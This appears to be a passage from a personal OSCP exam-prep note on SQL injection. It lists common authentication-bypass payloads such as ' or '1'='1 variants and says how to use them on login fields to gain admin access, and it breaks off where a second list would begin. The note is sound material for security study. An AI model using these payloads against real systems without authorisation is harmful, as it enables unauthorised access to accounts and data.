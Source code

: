 # SQLI

SQL Injection is a very common attack vector in the OSCP exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with SQL to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common SQLI cmds:

```sql
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've recieved a success message or something like that telling you that the SQL server accepted your input. In this case, try these common injections:

```sql
